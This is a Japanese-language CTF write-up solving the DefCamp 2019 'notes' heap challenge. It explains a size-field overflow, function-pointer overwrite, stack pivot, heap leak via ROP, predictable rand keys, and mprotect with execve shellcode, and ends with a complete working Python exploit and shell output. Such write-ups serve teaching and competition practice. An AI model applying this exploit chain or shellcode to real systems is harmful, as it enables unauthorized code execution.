 # [pwn 334pts] notes - DefCamp CTF Qualification 2019
64ビットバイナリで、だいたい無効です。
```
$ checksec -f pwn_notes
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols      No      0               0       pwn_notes
```
ですがstatic linkでstripされてるだけでSSPとかは普通にありました。
なんかcreate, edit, destroy, printがあります。ヒープ系問題でしょうか。

createするとmalloc(0x108)が呼ばれてfunctionが設定された後、randでkeyが0x20個登録されます。そのあとdata lengthを聞かれるのですが、0x83以下であればそのまま、それより大きければ0x80に修正されて、そのサイズ分readで入力できます。入力するとすぐにencrypt関数で、作ったkeysとxorして暗号化します。stripされてるので分かりづらいですが、`srand(time(0))`しているので暗号化は解除できます。構造体はこんな感じですね。
```c
typedef struct {
    void *function;
    int keys[0x20];
    char data[0x80];
    int size;
} Note;
```
editでは一度memsetでバッファを空にした後、作ったときに指定したサイズだけreadして同じ鍵でencryptします。destroyではmemsetでnoteの領域全体を空にした後、freeして`notes[i] = NULL`しています。自作ツールに投げたところ、`libc6-i386_2.23-0ubuntu11_amd64`を使ってコンパイルされていると判断されたので、tcacheは使えないでしょう。

さて、createでサイズに0x83まで入れられるのでsizeがオーバーフローできるという脆弱性があります。これによりサイズをいじると、editで次のチャンクまで書き換えられてしまいます。
あと忘れていましたが、showではfunctionに設定した関数が呼び出されます。標準で設定される関数ではnoteを引数にとり、xorして復号した結果を1文字ずつ表示しています。これを使えばヒープオーバーフローで任意関数呼び出しができます。一応`mov eax, 0Bh`しているところを探しましたが、system関数やexecve関数っぽいのは見つかりませんでした。

ということで関数ポインタを上書きすることで任意アドレスにジャンプすることができました。しかしshellを取る方法が分かりません。static linkのpwnに関する文献少なすぎでは？

いろいろ試していると、showでeipを取った時にスタックの状態が次のようになっていました。
```
pwndbg> x/32xw $esp
0xffebcb3c:     0x08048f14      0x09576230      0x00000000      0x0000000a
0xffebcb4c:     0x08048896      0x080481a8      0x080ecfbc      0x00000001
0xffebcb5c:     0x41414131      0x41414141      0x41414141      0x41414141
0xffebcb6c:     0x08000a41      0x080ecfbc      0x00000000      0xffebcba8
0xffebcb7c:     0x8fbe3800      0x080bd510      0x00000000      0xffebcba8
0xffebcb8c:     0x0804908b      0x080ecfbc      0x00000000      0x00000004
0xffebcb9c:     0x8fbe3800      0x080ed010      0xffebcbc0      0x00000000
0xffebcbac:     0x08049331      0x080ecfbc      0x00000000      0x00000000
```
Aがいっぱいありますが、これは直前のオプション選択でAをたくさん打った結果です。
つまり、espに直接ヒープのアドレスを入れる(mov esp, edx的な)ガジェットやstack pivotで飛ぶガジェットはありませんでしたが、espに0x20ほど足せばこのバッファをROP chainとして使うことができます。

今`show_func(note)`が呼ばれているので第一引数+4には暗号化されたデータが入っています。したがって、espに4足してretするとnote+4にretされるので、暗号化されたデータがROPガジェットとして実行されます。
こんなガジェットが使えそうです。
```
0x0807d8a8: add esp, 0x24 ; mov eax, esi ; pop ebx ; pop esi ; ret  ;  (1 found)
```

ROPを動かしたらmprotectでヒープを実行可能にするなり、ヒープにROPガジェットを用意してespを移すなりしますが、そのためにはヒープのアドレスが必要になります。show機能では1文字ずつputcharで出力しているのでoverreadはありません。ということで、ヒープのアドレスを取るにはprint系関数を自前で呼び出す必要がりますが、今回はprintfでFSBをすることにしました。関数アドレス+ヒープの中の暗号化されたデータが引数になるので、printfを呼び出せばFSBが引き起こせます。与えられた書式文字列のポインタはFSBでも取得できないので、printfを呼ぶ前にmainを呼ぶことでret2vulnしてスタックにヒープのアドレスを残したままFSBを引き起こすことで、ヒープのアドレスを取得します。

と思ったのですが、printfのアドレスに0x00が含まれているのでヒープの内容が何も出力されずに終わってしまいます。freeした後のデータをputsでリークしようにも、fastbinサイズじゃないのでheapのアドレスが書き込まれません。運が悪いなぁ。

途方に暮れていたのですが、普通にROPでnotesをputsすれば良いことに気づきました。灯台下暗し。

暗号化については前の問題と同じくrandを予想すれば良いので、暗号化されたデータがシェルコードになるようにすればOKです。

```python
from ptrlib import *
import ctypes

glibc = ctypes.cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc-2.27.so')
glibc.srand(glibc.time(0))

def create(size, data):
    key = [glibc.rand() for i in range(0x20)]
    output = b''
    for i in range(0, min(len(data), 0x80), 4):
        output += p32(u32(data[i:i+4]) ^ key[i//4])
    if len(data) > 0x80:
        output += data[0x80:]
    sock.sendlineafter("Choice: ", "1")
    sock.recvuntil("slot #")
    id = int(sock.recvline())
    sock.sendlineafter("length: ", str(size))
    sock.sendafter("encrypt: ", output)
    return id, key

def edit(index, data):
    sock.sendlineafter("Choice: ", "2")
    sock.sendlineafter("edit: ", str(index))
    sock.sendafter("encrypt: ", data)
    return

def destroy(index):
    sock.sendlineafter("Choice: ", "3")
    sock.sendlineafter("destroy: ", str(index))
    return

def show(index):
    sock.sendlineafter("Choice: ", "4")
    sock.sendlineafter("print: ", index)
    return

sock = Process("./pwn_notes")
rop_add_esp_24_pop_pop = 0x0807d8a8
addr_main = 0x8048f64
addr_puts = 0x8050730
addr_mprotect = 0x806f980
addr_note = 0x80eea20
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80\x90\x90\x90\x90"

# prepare
payload = b'A' * 0x80
payload += p32(0x84 + 8 + 4)[:3]
create(0x83, payload)    # 0
create(0x80, shellcode)  # 1

# leak heap address
payload = b'A' * 0x80
payload += p32(0x84 + 8 + 4)
payload += p32(0) + p32(0x111)
payload += p32(rop_add_esp_24_pop_pop)
edit(0, payload)
payload = b'1\x00AA' + b'A' * 8
payload += p32(addr_puts)
payload += p32(addr_main)
payload += p32(addr_note)
show(payload)
addr_heap = u32(sock.recvline()[:4])
logger.info("note[0] = " + hex(addr_heap))

# mprotect and run shellcode
payload = b'1\x00AA' + b'A' * 8
payload += p32(addr_mprotect)
payload += p32(addr_heap + 0x110 + 0x84)
payload += p32(addr_heap & 0xfffff000)
payload += p32(0x1000)
payload += p32(0b111)
show(payload)

sock.interactive()
```

わーい。
```
$ python solve.py 
[+] __init__: Successfully created new process (PID=9182)
[+] <module>: note[0] = 0x96b0120
[ptrlib]$ id
uid=1000(ptr) gid=1000(ptr) groups=1000(ptr),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare),999(docker)
[ptrlib]$
```

# 感想
個人的にかなり面白かったです。勉強になりました。

